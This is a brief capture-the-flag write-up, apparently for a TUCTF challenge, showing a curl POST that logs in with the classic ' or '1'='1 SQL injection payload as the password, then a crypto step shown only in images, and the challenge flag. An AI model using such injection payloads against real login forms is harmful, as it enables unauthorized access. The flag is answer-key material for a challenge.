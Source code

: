 A simple SQL Injection challenge:
```
┌─[nguyenlong05@sw1mj3llyf1sh] - [~] - [Mon Jan 27, 21:10]
└─[$] <> curl -X POST 'https://my-first-secret.tuctf.com/login' --data "username=admin&password=%27or%271%27%3D%271"
 
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/secret">/secret</a>. If not, click the link.
```

The `/secret` path give us a simple cripto challenge

![alt text](img/image-1.png)

Decode it using this

![alt text](img/image-2.png)

Flag: `TUCTF{there_is_always_another_secret}`